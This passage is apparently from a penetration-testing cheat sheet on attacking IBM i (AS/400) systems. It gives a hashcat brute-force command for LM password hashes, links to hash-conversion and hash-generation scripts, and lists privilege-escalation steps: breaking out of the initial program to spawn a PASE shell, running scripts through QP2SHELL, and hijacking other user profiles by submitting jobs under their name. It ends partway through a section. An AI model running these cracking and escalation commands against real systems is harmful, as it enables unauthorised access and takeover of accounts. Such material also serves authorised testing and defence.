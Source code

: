 ```ps1
# Hashcat command for LM hashes
.\hashcat.exe  -m 3000 -a 3 --increment --username -1 ?u?d?s .\hashes.txt ?1?1?1?1?1?1?1
```

* [willstruggle/ibmiscanner2john.py](https://github.com/willstruggle/john/blob/master/ibmiscanner2john.py) - Convert files in format userid:hash (e.g files produced by older versions of the ibmiscanner tool) to the as400-sha format that can be processed by JtR
* [hackthelegacy/pwd400gen.py](https://web.archive.org/web/20170224172524/http://www.hackthelegacy.org/attachments/pwd400gen.py) - Password hash generator for IBM Power Systems

## Privilege Escalation

### Initial Program Breakout

* Click "`Attn`" button. The attention interrupt key (ATTN) allows the authenticated user to interrupt/end a process and display a menu with additional functions.
* Press `F9` to run commands

```ps1
# Spawn a PASE shell
CALL QP2TERM

# Execute a script
CALL QP2SHELL PARM('/QOpenSys/usr/bin/sh' + '/tmp/scr')
```

### Hijack Profile - SECOFR Security Class

User profiles assigned with the `*SECOFR` (Security Officer) security class are automatically granted `*ALLOBJ` (All Object) authority, giving them unrestricted access to all system objects. Refer to [User Class](#user-class)

Display a user profile in several different formats with `DSPUSRPRF`.

```ps1
DSPUSRPRF <username>
```

The user submitting this must have `*ALLOBJ` and `*JOBCTL` authority.

* Submitting a Job as `<USERNAME>`

    ```ps1
    SBMJOB CMD(DSPJOB) JOB(TESTJOB) USER(<USERNAME>)
    ```

* Then check the job log:

    ```ps1
    WRKJOB TESTJOB
    ```

### Hijack Profile - Authorities

* Print Public Authority: any user profiles have authority that is not set to the default of `*PUBLIC AUT(*EXCLUDE)`
